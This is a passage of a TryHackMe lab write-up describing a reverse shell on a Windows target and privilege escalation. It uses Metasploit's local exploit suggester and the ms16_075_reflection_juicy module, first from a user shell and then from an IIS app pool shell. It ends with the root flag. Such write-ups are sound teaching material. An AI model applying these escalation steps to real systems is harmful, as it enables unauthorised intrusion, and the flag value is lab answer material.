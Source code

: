 On the victim machine execute the revshell file
![Pasted image 20240919173127.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919173127.png)

And we have a  shell like Wade
![Pasted image 20240919173248.png|700](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919173248.png)

Now run the privescalation module `run multi/recon/local_exploit_suggester`
![Pasted image 20240919173423.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919173423.png)
And we have a long list of possible ways to escalate, I just show 1 of them.
![Pasted image 20240919174219.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919174219.png)
Press ctrl + z to send the session to background, pres `y` and `enter`
To check it `session` it is the session 13
![Pasted image 20240919175828.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919175828.png)

Use the exploit `use exploit/windows/local/ms16_075_reflection_juicy`
Set the `lport`, `lhost` and `session` 
When we try to execute `exploit` we have an advise, `Wade` doesn't have the `SeImpersonate` privilege.
![Pasted image 20240919180731.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919180731.png)
![Pasted image 20240919181157.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919181157.png)
So, we can try executing the exploit using a session like `iis apppool\retro` because the user have it
## Reverse shell like `iis apppoolretro`
To get this shell we just need exec the `.exe`file  when we was with a `php` reverse shell. After setting the `handler` as the pass step like `Wade`

Check the privileges. `whoami /priv`
![Pasted image 20240919180950.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919180950.png)

Again send the session to background and set the options like above.
And execute `exploit`
![Pasted image 20240919181618.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919181618.png)
And we have a shell with high privileges.
Get the root flag
![Pasted image 20240919181854.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919181854.png)
> [!check]- root.txt.txt
> 7958b569565d7bd88d10c6f22d1c4063

---